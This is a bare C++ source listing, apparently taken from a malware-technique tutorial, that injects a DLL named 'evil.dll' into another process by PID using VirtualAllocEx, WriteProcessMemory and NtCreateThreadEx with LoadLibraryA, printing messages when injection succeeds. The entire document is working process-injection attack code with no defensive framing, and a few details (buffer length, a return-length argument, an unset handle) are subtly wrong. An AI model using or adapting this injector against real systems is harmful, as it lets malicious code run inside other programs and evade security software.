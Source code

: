 ```cpp

int main(int argc, char* argv[]) {
  DWORD pid = 0; // process ID
  HANDLE ph; // process handle
  HANDLE ht; // thread handle
  LPVOID rb; // remote buffer
  SIZE_T rl; // return length

  char evilDll[] = "evil.dll";
  int evilLen = sizeof(evilDll) + 1;
  
  HMODULE hKernel32 = GetModuleHandle("Kernel32");
  LPTHREAD_START_ROUTINE lb = (LPTHREAD_START_ROUTINE) GetProcAddress(hKernel32, "LoadLibraryA");
  pNtCreateThreadEx ntCTEx = (pNtCreateThreadEx)GetProcAddress(GetModuleHandle("ntdll.dll"), "NtCreateThreadEx");
  
  if (ntCTEx == NULL) {
    CloseHandle(ph);
    printf("NtCreateThreadEx failed :( exiting...\n");
    return -2;
  }

  pid = findMyProc(argv[1]);
  if (pid == 0) {
    printf("PID not found :( exiting...\n");
    return -1;
  } else {
    printf("PID = %d\n", pid);

    ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, (DWORD)pid);

    if (ph == NULL) {
      printf("OpenProcess failed :( exiting...\n");
      return -2;
    }

    // allocate memory buffer for remote process
    rb = VirtualAllocEx(ph, NULL, evilLen, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);

    // write payload to memory buffer
    WriteProcessMemory(ph, rb, evilDll, evilLen, rl); // NULL);

    ntCTEx(&ht, 0x1FFFFF, NULL, ph, (LPTHREAD_START_ROUTINE) lb, rb, FALSE, NULL, NULL, NULL, NULL);

    if (ht == NULL) {
      CloseHandle(ph);
      printf("ThreadHandle failed :( exiting...\n");
      return -2;
    } else {
      printf("successfully inject via NtCreateThreadEx :)\n");
    }
    
    WaitForSingleObject(ht, INFINITE);

    CloseHandle(ht);
    CloseHandle(ph);
  }
  return 0;
}

```
